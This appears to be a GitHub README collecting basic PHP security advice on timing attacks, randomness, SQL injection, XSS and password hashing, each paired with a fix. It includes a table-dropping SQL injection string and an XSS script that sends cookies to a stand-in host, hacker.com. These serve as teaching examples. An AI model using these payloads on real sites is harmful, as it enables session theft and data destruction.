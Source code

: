 ### PHP security collection
I am not an expert, just somemone who collects security vulnerabilities!

#### Genral links
https://github.com/paragonie/awesome-appsec#php

https://www.udemy.com/course/php-security/

#### Timing attack

String compare operators return immediately if the length is not the same:
So you could see if one length takes longer than other, based on that you can get the length. The string compare operator return immediately if the a character is wrong, so based on that: you can get the character that takes the longest and that this is the right character.

```
if ($_POST["password"] !== "Password") {
    return false;
}
```
Even if the time difference is so little and ther is network jitter: why risk it. Use hash_equals($known_string, $user_string), which doesnt leak time difference (only for getting the length).
```
if (hash_equals("Password", $_POST["password"]) {
    return true;
}
```

[Link on topic](https://blog.ircmaxell.com/2014/11/its-all-about-time.html)

#### Insufficient Randomness

Dont use mt_rand() . Use one of the following:

* RandomLib
* random_bytes($length) (PHP 7, or available in PHP 5 via random_compat)
* Raw bytes read from /dev/urandom
* mcrypt_create_iv($length, MCRYPT_DEV_URANDOM);
* openssl_random_pseudo_bytes($length);

```
$token = bin2hex(openssl_random_pseudo_bytes($length));
```

[Link on topic](https://paragonie.com/blog/2015/04/secure-authentication-php-with-long-term-persistence)

#### SQL injection
```
$userQuery = $con->query("SELECT * FROM users WHERE email = '$email' ");
```

If user input is:
''; DROP TABLE posts; --
This will drop the table posts.

To avoid this, use prepare statement.
```
$userQuery = $con->prepare("SELECT * FROM users WHERE email = :email");
$userQuery->execute([
    'email' => $email
]);
```
[PDO tutorial](https://phpdelusions.net/pdo)

#### PHP ini

```
display_errors=Off ;hides possible data leaks
```

#### Cross-site scripting (XSS)
XSS is an injection attack. If you have some type of form, that uploads data and try to show this data as html code, you can insert javascript. For example: you can commit a comment and you show this comment as html, you can insert into the comment javscript: which will, when inserted, be ecexuted. You could insert this "harmless" code:
```
<script>
window.alert("Hello i am inserted")
</script>
```
To see how dangerous XSS is, look at that:
```
<script>
window.location = "http://hacker.com/hack.php?cookie=" + escape(document.cookie)
</script>
```
See, you can steal cookies: which can have eccess tokens.

When insert text with javascript use instead of innerHTML, textContent. When echo in php fetch the echo content out of htmlspecialchars($_POST["body"]).
```
echo htmlspecialchars($_POST["body"]);
```

When insert text with javascript use instead of innerHTML, textContent.

#### Password hashing
Dont use md5 hashing. It is easily crackable.
```
md5($_POST["password"]) //dont do this
```
Use password_hash($password).
```
password_hash($password, PASSWORD_DEFAULT) // this hashes the password
```
[Password hash manual](https://www.php.net/manual/de/function.password-hash.php)
